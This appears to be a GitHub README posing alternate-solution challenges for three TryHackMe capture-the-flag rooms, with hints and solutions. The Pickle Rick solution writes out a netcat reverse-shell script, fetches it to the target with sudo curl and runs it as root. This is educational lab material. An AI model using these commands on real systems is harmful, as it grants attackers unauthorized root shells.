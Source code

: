 # TryHackMe Extra Challenges

## Free Rooms Index
<a href="#LinuxFundamentals1">Linux Fundamentals 1</a><br>
<a href="#PickleRick">Pickle Rick</a><br>
<a href="#Wonderland">Wonderland</a><br>
<br>
## Subscriber Rooms Index
tbd<br>
<br>
### Free Rooms Extra Challenges
<h4 id="LinuxFundamentals1"><a href="https://tryhackme.com/room/linux1">Linux Fundamentals 1</a></h4>
Don't follow the directions for using the shiba1 binary, but find another way to discover shiba2's password.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
It's a simple reverse engineering task.

<details>
<summary>Hint 2</summary>
  
<a href="https://linux.die.net/man/1/strings">strings</a>

<details>
<summary>Solution</summary>

Doing <code>strings shiba1</code> and review shows it includes the line "cat /etc/shiba/shiba2".<br>
<code class="language-plaintext highlighter-rouge">ls -al /etc/shiba/shiba2</code> shows the file is:<br>
-rw-r--r-- 1 root root 9 Feb 13  2020 /etc/shiba/shiba2<br>
This is readable by any local user, so shiba1 can <code class="language-plaintext highlighter-rouge">cat /etc/shiba/shiba2</code> for the password.<br>
      
</details>
</details>
</details>

<br>
<h4 id="PickleRick"><a href="https://www.tryhackme.com/room/picklerick">Pickle Rick</a></h4>
When the web command portal is found, the clue encourages you to keep working with this access. There is another method that is easier.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
Always check the permissions for your user.

<details>
<summary>Hint 2</summary>
  
A shell for the machine would remove limitations imposed on the web command portal.

<details>
<summary>Solution</summary>

It's possible to finish the Room quickly with the web command portal after checking the www-data user's <code class="language-plaintext highlighter-rouge">sudo -ll</code> and learning they have root access through sudo without a password. It's also possible to get a root shell by creating a local file called shell.sh as:<br>
```bash
#!/bin/bash
mkfifo /tmp/lol
nc 10.10.10.10 8008 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```
<br>
Serve from local with <code class="language-plaintext highlighter-rouge">python3 -m http.server 8009</code> then pull it to the target through the web command portal with:<br>
<code class="language-plaintext highlighter-rouge">sudo curl http://10.10.10.10:8009/shell.sh -o /tmp/shell.sh</code><br>
 After the transfer, stop the local http.server and replace with a local listener to catch the shell using <code class="language-plaintext highlighter-rouge">nc -nlvp 8008</code>.<br>
Finish by using the web command portal to modify the file as <code class="language-plaintext highlighter-rouge">sudo chmod +x /tmp/shell.sh</code> and then execute with <code class="language-plaintext highlighter-rouge">sudo /tmp/shell.sh</code> to connect.<br>
 
</details>
</details>
</details>

<br>
<h4 id="Wonderland"><a href="https://tryhackme.com/room/wonderland">Wonderland</a></h4>
The Room is meant to be finished by rooting the box, though both flags can be found with a different method.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
Check the flag formats/masks and the Room tags. Tags are sometimes easier to see by doing a <a href="https://tryhackme.com/hacktivities?tab=search">search</a> for the Room name and looking at the preview in results.

<details>
<summary>Hint 2</summary>
  
It is not necessary to Deploy the machine.

<details>
<summary>Solution</summary>

The flag formats for Wonderland are very unusual for TryHackMe: they look like sentences or at least some kind of text. If you search Project Gutenberg, you can find a text-only format of Alice in Wonderland to copy local with:<br>
<code>wget http://www.gutenberg.org/files/11/11-0.txt</code><br>
Now we have the full text and <a href="https://www.gnu.org/software/grep/manual/grep.html#Introduction">grep</a> to search it.<br>
user.txt:<br>
<code class="language-plaintext highlighter-rouge">grep -sw -E '[[:graph:]]{10}[[:blank:]][[:graph:]]{3}[[:blank:]][[:graph:]]{11}' 11-0.txt</code><br>
<br>
root.txt is a little tricker by this method. Formatting the whole grep expression is an effort, but even with that dilligence it fails. However, that also requires learning how to add in checks for the commas, or include the counts in the "graph" portions. Those commas look helpful.<br>
Attempting only a search for the first portion:<br>
<code class="language-plaintext highlighter-rouge">grep -sw -E '[[:graph:]]{7}[,][[:blank:]][[:graph:]]{7}[,][[:blank:]][[:graph:]]{6}' 11-0.txt</code><br>
returns a single match, but on a line alone. Adding in the argument to get this line number from the text:<br>
<code class="language-plaintext highlighter-rouge">grep -swn -E '[[:graph:]]{7}[,][[:blank:]][[:graph:]]{7}[,][[:blank:]][[:graph:]]{6}' 11-0.txt</code><br>
returns 1737 for the line number. Using the <a href="https://linux.die.net/man/1/sed">sed</a> command to see what is happening in this area of the text:<br>
<code class="language-plaintext highlighter-rouge">sed '1732,1742!d' 11-0.txt</code><br>
reveals the two lines, separated from everything else, that can be entered to complete the flag.<br>
      
</details>
</details>
</details>

<br>
### Subscriber Rooms Extra Challenges
tbd<br>
<br>
